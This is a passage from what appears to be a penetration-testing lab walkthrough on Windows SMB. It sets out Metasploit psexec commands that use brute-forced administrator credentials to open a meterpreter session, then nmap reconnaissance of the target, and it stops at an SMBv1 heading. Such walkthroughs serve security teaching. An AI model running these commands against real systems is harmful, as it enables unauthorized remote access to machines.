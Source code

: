 ### SMB

This is the protocol that should be used by hydra to perform the brute-force attack.

### Now, we will run the psexec Metasploit exploit module to gain the meterpreter session using these credentials.

Let's try to get a shell on this system using the PSExec module of the Metasploit framework.

```bash
msfconsole -q
use exploit/windows/smb/psexec
show options
```

As we can see, we have to set RHOSTS SMBUSER and SMBPASS.
Rest all other essential values, i.e. PAYLOAD, and LHOST, is already set.

Let's set all these values and exploit the target.

```bash
set RHOSTS target_ip_local
set SMBUSER administrator
set SMBPASS elizabeth
exploit

```

We have successfully gained the meterpreter session on the target machine.

```bash
ping target_ip_local
ping target_ip
```

Only one provided machine is reachable, i.e., target_ip_local, and we also found the target's IP addresses.

### Check open ports on the target_ip_local machine.

```bash
nmap target_ip_local
```

Multiple ports are open on the target_ip_local machine.

All the ports expose core services of the Windows operating system, i.e., SMB, RDP, RPC, etc.
There are multiple versions of the SMB protocol.

- SMB1
- SMB 2.0
- SMB 2.1
- SMB 3.0
- SMB 3.0.2
- SMB 3.1.1

### SMBv1:
